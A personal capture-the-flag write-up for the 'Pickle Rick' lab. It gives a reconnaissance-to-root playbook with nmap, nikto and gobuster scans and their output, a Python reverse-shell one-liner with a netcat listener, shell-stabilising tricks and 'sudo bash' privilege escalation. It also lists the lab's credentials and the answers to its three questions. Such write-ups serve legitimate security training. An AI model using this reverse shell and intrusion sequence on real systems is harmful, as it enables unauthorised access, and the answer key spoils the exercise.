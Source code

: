 # Pickle Rick CTF notes

###### [Home](https://eduardo-granados.github.io/)

---

# Playbook

(Could use hydra, but would be too easy)

export IP=10.10.200.202 (IP will change), but will be useful to not have rewrite IP address

1. Look up source IP on a browser


2. Inspect page source code


3. nmap scan IP address 
    - nmap -v2 -sC -sV -oN nmap_scap.log $IP


4. Run a nikto scan and log it
   - nikto -h http://$IP | tee nikto_scan.log 
   - Check out robots.txt, if it has one


5. Run gobuster
   - gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,py | tee gobuster_scan.log
   - there is a login page 


6. Command panel is shown, try out commands
    - grep pattern filename -> grep . file.txt
    OR
    - while read line; do echo $line; done < clue.txt


7. with access to a command line, lets set up a reverse shell
   - using python or netcat
   - python3 -c "print('hello')"


8. use pentestmonkey to create a reverse shell with
   - pentestmonkey.net
   - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   - nc -lnvp 9999


9.  stabalize reverse shell
   - /usr/bin/script -qc /bin/bash /dev/null


10. try to become root and snoop
   - sudo bash

# nmap_results

```
# Nmap 7.60 scan initiated Tue Jul  4 01:02:41 2023 as: nmap -v2 -sC -sV -oN nmap_scan.log 10.10.157.152
Nmap scan report for ip-10-10-157-152.eu-west-1.compute.internal (10.10.157.152)
Host is up, received arp-response (0.00061s latency).
Scanned at 2023-07-04 01:02:42 BST for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:37:46:44:8f:24:02:f8:36:61:b5:9e:06:20:09:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4YqWDGijuoTjsGHWhqbaZXS7AulELXqfKO1J99N5wxEG8hA9KkPahkGlfp1XD0nVRnak0XjXJE87wtn6UybFWBBcNo078ObYer1ONnsYuUCY6RTmHyD3BCoz55+faQqc1maYtNRWEYUlo2PzNtV6+9i67jJE8WLeYSXGZTpKCDBh8ljYtc+45rIQLhbPQEQJyMKvrLX9pISgibMl4AD/x8qgqieYYNumqwf3w8/sQ+RMmDzhLCthnwoORmw/BnkF7uYYDz83cCI4AxJv/C2byazZy55vCAb9XByiAmZFlY/bIFslfXlEV+RSeGHHHHM52MkgB2pSopVbyIl9zVyyJ
|   256 2d:9c:35:99:a3:96:90:a6:a5:f4:77:8f:8b:05:50:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGQJq0EDmzoqLa/ndvEYFLGSbZg4kGCm9LRR++pTZnNd+pHoL91V4sxZqlB7zpegGCZ8Sqia+gW7vJWfk36hysc=
|   256 8e:a0:23:d6:4b:16:6f:84:c8:25:ce:6d:e7:77:3f:3c (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGuhYvMm4pq+KQjSFG4kAI7QqAdqX2zb4k2lwLh7EzF9
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:7B:6D:D6:28:CF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  4 01:02:50 2023 -- 1 IP address (1 host up) scanned in 8.34 seconds

```

# nikto_results

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.157.152
+ Target Hostname:    ip-10-10-157-152.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-07-04 00:05:10 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-07-04 00:05:18 (GMT1) (8 seconds)
---------------------------------------------------------------------------

```

# gobuster_results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.157.152
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,txt,cgi,html,js,css,py,php
[+] Timeout:        10s
===============================================================
2023/07/04 00:19:14 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
===============================================================
2023/07/04 00:53:16 Finished
===============================================================

```

# copy_pasta

```
Username: R1ckRul3s

Wubbalubbadubdub


Sup3rS3cretPickl3Ingred.txt
    -> mr. meeseek hair


assets


clue.txt
denied.php
index.html
login.php
portal.php
robots.txt


Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
-> echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | ba0== base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d 
-> rabbit hole


2nd ingredeient: 1 jerry tear


3rd ingredients: fleeb juice

```

# stabalizing_shell

```
/usr/bin/script -qc /bin/bash /dev/null

OR

nc -lnvp 9999
CRTL + z
stty raw -echo;fg
ENTER
export TERM=xterm

```

# Task_1

```
1. What is the first ingredient that Rick needs?
- 1st ingredeient: mr. meeseek hair

2. What is the second ingredient in Rick’s potion?
- 2nd ingredeient: 1 jerry tear

3. What is the last and final ingredient?
- 3rd ingredients: fleeb juice

```